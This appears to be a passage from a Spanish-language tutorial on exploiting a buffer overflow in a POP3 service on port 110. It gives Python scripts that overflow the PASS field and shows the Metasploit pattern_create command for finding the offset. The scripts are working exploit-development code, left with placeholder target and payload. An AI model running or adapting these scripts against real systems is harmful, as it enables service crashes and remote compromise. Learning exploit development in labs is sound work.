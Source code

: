```python
#!/usr/bin/python3

import socket
import sys

if len(sys.argv) !=2:
	print("\n[!] Usage: exploit.py <length>")
	exit(1)

# Variables globales
ip_address = "<ip_mauina_victima>"
port = 110
total_length = int(sys.argv[1])

def exploit():
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((ip_address, port))
	banner = s.recv(1024)
	s.send(b"USER user" + b'\r\n')
	response = s.recv(1024)
	s.send(b"PASS " + b"A"*total_length + b'\r\n')
	s.close()

if __name__ == '__main__':
	exploit()

```

Una vez veamos que se sobrescribió el buffer generamos un payload para saber con cuantos cuantos bytes se necesitan para sobrescribir  

```sh
/usr/share/metasploit-framework/tools/exploit/pattern-create.rb -l 500
```

Modificamos el script 

```python
#!/usr/bin/python3

import socket
import sys

# Variables globales
ip_address = "<ip_mauina_victima>"
port = 110
payload = b"<payload>"

def exploit():
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((ip_address, port))
	banner = s.recv(1024)
	s.send(b"USER user" + b'\r\n')
	response = s.recv(1024)
	s.send(b"PASS " + payload + b'\r\n')
	s.close()

if __name__ == '__main__':
	exploit()
```
